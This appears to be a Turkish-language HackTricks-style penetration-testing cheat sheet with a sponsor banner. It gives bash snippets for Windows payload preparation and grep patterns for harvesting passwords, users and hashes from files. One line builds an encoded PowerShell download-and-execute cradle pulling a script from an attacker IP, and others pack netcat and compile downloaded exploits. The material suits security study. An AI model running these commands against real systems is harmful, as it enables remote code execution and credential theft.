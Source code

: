 \
Dünyanın **en gelişmiş** topluluk araçlarıyla desteklenen **iş akışlarını** kolayca oluşturmak ve **otomatikleştirmek** için [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) kullanın.\
Bugün Erişim Alın:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

## Windows için Bash
```bash
#Base64 for Windows
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/9002.ps1')" | iconv --to-code UTF-16LE | base64 -w0

#Exe compression
upx -9 nc.exe

#Exe2bat
wine exe2bat.exe nc.exe nc.txt

#Compile Windows python exploit to exe
pip install pyinstaller
wget -O exploit.py http://www.exploit-db.com/download/31853
python pyinstaller.py --onefile exploit.py

#Compile for windows
#sudo apt-get install gcc-mingw-w64-i686
i686-mingw32msvc-gcc -o executable useradd.c
```
## Greps
```bash
#Extract emails from file
grep -E -o "\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,6}\b" file.txt

#Extract valid IP addresses
grep -E -o "(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)" file.txt

#Extract passwords
grep -i "pwd\|passw" file.txt

#Extract users
grep -i "user\|invalid\|authentication\|login" file.txt

# Extract hashes
#Extract md5 hashes ({32}), sha1 ({40}), sha256({64}), sha512({128})
egrep -oE '(^|[^a-fA-F0-9])[a-fA-F0-9]{32}([^a-fA-F0-9]|$)' *.txt | egrep -o '[a-fA-F0-9]{32}' > md5-hashes.txt
#Extract valid MySQL-Old hashes
grep -e "[0-7][0-9a-f]{7}[0-7][0-9a-f]{7}" *.txt > mysql-old-hashes.txt
#Extract blowfish hashes
grep -e "$2a\$\08\$(.){75}" *.txt > blowfish-hashes.txt
#Extract Joomla hashes
egrep -o "([0-9a-zA-Z]{32}):(w{16,32})" *.txt > joomla.txt
#Extract VBulletin hashes
egrep -o "([0-9a-zA-Z]{32}):(S{3,32})" *.txt > vbulletin.txt
#Extraxt phpBB3-MD5
egrep -o '$H$S{31}' *.txt > phpBB3-md5.txt
#Extract Wordpress-MD5
egrep -o '$P$S{31}' *.txt > wordpress-md5.txt
#Extract Drupal 7
egrep -o '$S$S{52}' *.txt > drupal-7.txt
```
